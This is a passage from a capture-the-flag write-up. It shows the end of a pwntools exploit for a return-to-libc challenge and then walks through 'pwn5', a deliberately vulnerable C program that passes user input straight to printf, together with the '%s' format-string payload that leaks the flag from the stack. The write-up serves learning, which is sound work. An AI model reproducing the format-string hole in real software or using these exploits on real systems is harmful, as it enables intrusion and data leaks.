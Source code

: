 ```python

    p.sendline("cat flag.txt;exit")

    print(re.search("(FLAG{.*})",p.recvall(timeout=.1).decode()).group(1))



if __name__ == "__main__":
    main()
```

flag: `FLAG{r37urn_70_l1bc_227ade}`

## pwn5

Because I am dumb (and didn't get these reviewed lol) there is a trivial unintended solution.  

```text
❯ strings chall | grep "FLAG"
FLAG{f0rm47_57r1n6_l34k_69cd8e}
```

Now, i'll go ahead and cover the intended solution anyways.  

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	setvbuf(stdout, NULL, _IONBF, 0);
	char* val1 = "not the flag :(";
	char* val2 = "still not the flag";
	char* val3 = "i dont think this is right";
	char* val4 = "doesn't look like it";
	char* val5 = "i dont see the flag format";
	char* val6 = "not quite there yet";
	char* val7 = "redacted (but this is the flag on the server)";
	char* val8 = "i think you went too far";
	char* name = malloc(50);
	printf("*it sounds like this cave is echoing... what do you want to say?*");
	fgets(name, 50, stdin);
	printf(name);
	free(name);
}
```

Our input string is used as the first argument to printf which means that this binary is vulnerable to a format string evaluation attack.  The flag is just sitting on the stack which means if we just write a bunch of `%s` (which interpolates a string) it will eventually leak the flag (or in theory crash if anything on stack isn't a legitimate address but this one doesn't)

```text
❯ ./chall
*it sounds like this cave is echoing... what do you want to say?*%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.(null)..%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.MEU..%s.%s.%s.%s.%s.%s.%s.%s.%s.%s.%s
.i think you went too far.FLAG{f0rm47_57r1n6_l34k_69cd8e}.not quite there yet.i dont see the flag format
```
